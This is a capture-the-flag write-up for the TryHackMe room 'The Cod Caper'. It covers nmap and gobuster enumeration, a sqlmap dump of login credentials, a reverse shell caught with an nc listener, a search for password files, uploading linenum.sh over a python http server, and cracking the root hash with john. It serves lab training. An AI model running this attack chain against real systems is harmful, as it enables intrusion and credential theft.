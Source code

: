 #The Code Caper

![alt_text](TheCodCaper/cod1.png "image_tooltip")

This is a writeup for the room [The Cod Caper at TryHackMe](https://tryhackme.com/room/thecodcaper)

I used Parrot OS to complet the room, so there might be a difference of syntax in the commands!

The target IP for me was 10.10.113.161 and that is what you will be seeing through my screenshots. Just replace by the target IP given to you when you deploy the machine.


Have fun!! 

`CryptoTzipi aka CyberLola`

![alt_text](TheCodCaper/cod3.png "image_tooltip")

VERY CUTE!! Read the story and deploy the machine!!
No answers needed for this one

![alt_text](TheCodCaper/cod4.png "image_tooltip")


We will start with our host enumeration by using nmap with the following command

`nmap -sC -A <IP> -T 4`

(the -T 4 switch is just to speed up things a little bit)


![alt_text](TheCodCaper/cod2.png "image_tooltip")

By doing that you will be able to answer all questions on task one!!


![alt_text](TheCodCaper/cod26.png "image_tooltip")


Next we will do web enumeration using the tool gobuster.
If you are unsure about the usage, just type
`gobuster -h`

and go through the different options!
For our task here, we will use 

`gobuster dir -u http://IP -w /use/your/own/file/path!!/big.txt`

I usually go with the dirb lists such as common.txt but since the task tells us to use one of the (awesome) SecLists, I complied and used it!


![alt_text](TheCodCaper/cod5.png "image_tooltip")


We find something interesting in this scan!

That concludes task 3.


![alt_text](TheCodCaper/cod27.png "image_tooltip")


Typing our findings  into a browser...


![alt_text](TheCodCaper/cod6.png "image_tooltip")


And we got ourselves a login page!! Cool!! Going ahead and digging a little more, we can see..

![alt_text](TheCodCaper/cod7.png "image_tooltip")

(you can see the same thing by just right clicking in the webpage and then clicking "View Page Source"..it's probably the easiest way, but I just wanted to share another way!!)

It is indeed an authentication page!! 

But we don't have any credentials :( ...
YET!

The task wants us to use a tool called sqlmap (it was VERY useful duing the eJPT exam!) 

WE will go ahead and use the command

`sqlmap -u http://IP/administrator.php --forms --dump`

And wait ... (hopefully you won't have to wait as long as I did!!) 

![alt_text](TheCodCaper/cod22.png "image_tooltip")

I have to apologize for the lack of screenshots showing the small table where the credentials can be seen and also the SQL injection vulnerabilities.. :(
(I forgot to take it and my machines now has long expired! N00b mistake, sorry about that)

`pingudad:secretpass`

And through the finished sqlmap scan we can find 3 SQL vulnerabilities!


![alt_text](TheCodCaper/cod28.png "image_tooltip")


SWEET!! We have credentials, so now we can just login as pingu's dad :)

![alt_text](TheCodCaper/cod8.png "image_tooltip")

we can run commands on this page! Nice!

That also means that we can easily run a reverse shell in there!

The suggestions in the room are great ( I picked one and put it in this repository, if it is easier for you)

Just make sure you change the IP ... about the port, they suggest 1234, I like my usual 7777 :)


Copy/paste it in there and BEFORE you hit ENTER, you need to start a netcat listener in your own terminal 

`nc -lvnp 7777`  (or any port you chose)

THEN hit enter in the webpage, where you pasted the shell

Take a peek at your listener and this should be able to see something like this ...

![alt_text](TheCodCaper/cod29.png "image_tooltip")

If you look closely, that also gives you the answer for a question in the task!!

Here woudl be a good time to stabilize this shell by using 

`python3 -c 'import pty;pty.spawn("/bin/bash")' `

Or dig a little longer and get another answer out of the way!!

![alt_text](TheCodCaper/cod30.png "image_tooltip")

Next we need to find the ssh password!!

I went ahead, stabilized my shell with the command above and then tried to find any file in there with "pass" in it by running

`find / -name pass* 2>/dev/null`


![alt_text](TheCodCaper/cod13.png "image_tooltip")

LOTS of output!! There's gotta be an easier/better way to do that, but that's what I came up with and it worked!

Go through all that output and one file will definitely catch your attention!!

![alt_text](TheCodCaper/cod14.png "image_tooltip")

AND ....

![alt_text](TheCodCaper/cod15.png "image_tooltip")

BOOM! We have the SSH password!!


![alt_text](TheCodCaper/cod32.png "image_tooltip")


We ssh with pingu's credentials which we obtained in the previous task.

On this task we are supposed to upload a VERY handy tool.
2 methods of achieving that are explained to us.

I am a fan of the python server + wget, so that's what we will use

Set the server on a separate tab ... (make sure you are in the same directory where you saved linenum.sh!!!)

`sudo python3 -m http.server 80`

![alt_text](TheCodCaper/cod16.png "image_tooltip")

then proceed to upload the tool by wget, from the /tmp (why? Because anyone can write into it, you don't need any privileges, making it a good spot to upload tools)

`wget http://IP:80/linenum.sh linenum.sh`

![alt_text](TheCodCaper/cod17.png "image_tooltip")


After uploading, we must make it executable by doing `chmod +x linenum.sh`

Run the tool!

![alt_text](TheCodCaper/cod18.png "image_tooltip")

Again, lots of output, so be patient and let linenum do its thing! :)

After the scan is finished, we go back and revise it carefully!!

![alt_text](TheCodCaper/cod19.png "image_tooltip")

That will answer the task's question!

Tasks 7, 8, and 9 are all about learning! There are no answers needed, but I highly suggest going through the 
material and studying it!

![alt_text](TheCodCaper/cod33.png "image_tooltip")


For our last task, the room suggests hashcat ... but even though I LOVE cats ...
I will go with john for this!

We save the hash in a text editor and name it pingu ( you can certainly name it whatever you wish!!)



![alt_text](TheCodCaper/cod38.png "image_tooltip")

The command goes

`john pingu --wordlist=/use your own path here/rockyou.txt`

BOOM!
We have the root password!!

![alt_text](TheCodCaper/cod21.png "image_tooltip")


CONGRATULATIONS!! WELL DONE!!

I hope this writeup was helpful!


Happy Hacking


                                    
                                    `CryptoTzipi aka CyberLola`



![alt_text](TheCodCaper/cod20.png "image_tooltip")




















 






